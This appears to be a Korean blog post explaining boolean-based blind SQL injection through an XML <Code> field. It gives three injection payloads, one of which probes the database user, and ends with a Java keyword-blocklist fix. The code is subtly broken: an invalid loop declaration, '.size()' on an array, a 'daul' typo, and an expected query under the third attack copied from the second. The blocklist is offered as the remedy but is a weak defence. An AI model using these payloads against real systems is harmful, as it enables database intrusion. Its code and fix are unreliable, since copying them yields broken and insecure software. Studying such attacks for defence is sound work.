 ```yaml
---
title:  "SQL Injection 불리언 분기 공격"
excerpt: "SQL Injection 불리언 분기 공격 입니다."

categories:
  - convention
tags:
  - [컨벤션, Convention, COMMON]

toc: true
toc_sticky: true

last_modified_at: 2025-08-17T14:55:00-14:55:00
---
```


## 개요
> ❗<span style='color:green'>***참 거짓을 이용한 반응으로 공격***</span>  
> 💡 *<span style='color:blue'>**해당 내용으로 DB정보까지 탈취 가능**</span> 


## 내용
### 전문
```xml
<!-- 기존 전송되는 기본 XML 전문 -->
<Code>2019</Code>

```

```sql
/* 예상 쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019';

```
  
Code 라는 태그를 통해 타서버에 값을 전달하며 통신하고 있다.  
{: .notice--info}  
    
   

### 공격코드 1
```js
// 참거짓 반응으로 인젝션 : 비정상 동작을 감지가능.
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=1 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=1 then '1' else '' END) || '';

```
   
  
### 공격코드 2
```js
// 참거짓 반응으로 인젝션 : 정상 동작을 감지가능. (일부러 틀리게 작성했으므로)
data = data.replace("<Code>2019", "<Code>2019'||(case when 1=2 then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```


### 공격코드 3
```js
// 참거짓 반응으로 인젝션 : 1,2 번을 통해 공격가능함을 인지하고 DB사용자조회로 공격 후 정보를 예상 
data = data.replace("<Code>2019", "<Code>2019'||(case when 'scott'=(select user from daul) then '1' else '' END)||'");

```

```sql
/* 예상쿼리 */
SELECT * 
FROM some_table 
WHERE code = '2019' || (case when 1=2 then '1' else '' END) || '';

```
  
  
  
## 조치

```java
//중략..
String[] filterSQL = {"DROP","TRUNCATE","DELETE","UPDATE","INSERT","AND","OR","||","&&","\""};

@RequestMapping(value = "/테스트", method = Request.POST, produces = "text/plain;charset=UTF-8")
public @ResponseBody String 테스트(HttpServletRequest request, HttpServletResponse response) throws Exception

if(특정전문케이스 == true) 
{
    String responseXML = data;

    String regex = "<Code\\s*(.*?)\\s*</Code>"; // <Code></Code> 내부를 정규식.
    Pattern pattern = Pattern.compile(regex);

    Matcher matcher = pattern.matcher(responseXML);
    while(matcher.find()) 
    {
      String findValue = matcher.group(1).toUpperCase();

      for(int 1=0; i < filterSQL.size(); i++) 
      {
        if(findValue.contains(filterSQL[i])) {
          throw new BusinessLogicSQLException();
        }
      }
      
    }
}

//이하 정상로직

```


## 정리
> ❗<span style='color:green'>***SQL Injection의 고전적인 형태***</span>   
> 💡 *<span style='color:blue'>**이 공격은 || (CASE WHEN 1=1 THEN '1' ELSE '' END) || 를 붙여서 쿼리 문자열을 조작함.**</span>   
> 💡 *<span style='color:blue'>**결과적으로 WHERE 절 조건을 의도적으로 true/false로 바꿀 수 있다.**</span>   
> 💡 *<span style='color:blue'>**이 방식은 SQL Injection의 고전적인 형태로,  DB 종류(Oracle, PostgreSQL 등 || 문자열 연산 지원 DB)에서 특히 위험.**</span>   






